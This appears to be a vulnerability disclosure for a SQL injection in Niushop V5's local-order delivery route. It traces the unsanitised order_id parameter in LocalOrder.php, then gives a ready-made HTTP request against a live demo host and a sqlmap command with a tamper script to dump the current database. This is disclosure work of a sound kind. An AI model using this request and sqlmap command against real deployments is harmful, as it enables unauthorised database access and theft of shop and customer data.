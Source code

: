 Niushop V5 has a SQL injection vulnerability.

Official website: https://gitee.com/niushop-team/niushop_b2c_v5#https://gitee.com/link?target=https%3A%2F%2Fwww.kancloud.cn%2Fniucloud%2Fniushop_b2c_v5%2F3037616](https://gitee.com/niushop-team/niushop_b2c_v5#https:/gitee.com/link?target=https%3A%2F%2Fwww.kancloud.cn%2Fniucloud%2Fniushop_b2c_v5%2F3037616

Version: V5

Route: /shop/localorder/delivery.html

Injection parameters: order_id

#### 1.Vulnerability analysis

niushop_b2c_v5-master/niushop/app/model/order/LocalOrder.php
In the orderGoodsDelivery function, the native SQL statement concatenates $order_id.

![image-20250218151026180](assets/image-20250218151026180.png)

Click in to track the function, niushop_b2c_v5-master/niushop/app/shop/controller/Localorder.php calls this method.

![image-20250218151032514](assets/image-20250218151032514.png)

![image-20250218151058528](assets/image-20250218151058528.png)

Construct a data packet to trigger the function (save as post.txt).

```
GET /shop/localorder/delivery.html?order_id=1*&deliverer=2&deliverer_mobile=1 HTTP/2
Host: uniapp.v5.niuteam.cn
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 0
Origin: https://uniapp.v5.niuteam.cn
Referer: https://uniapp.v5.niuteam.cn/shop.html
Cookie: think_lang=zh-cn; PHPSESSID=b85fe59b153b7c2539fc0188bed22f38
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

```

#### 2.Vulnerability verification and exploitation

Replace the cookie in post.txt after login

sqlmap --batch --tamper=space2comment -r post.txt --current-db

![image-20250218150440806](assets/image-20250218150440806.png)
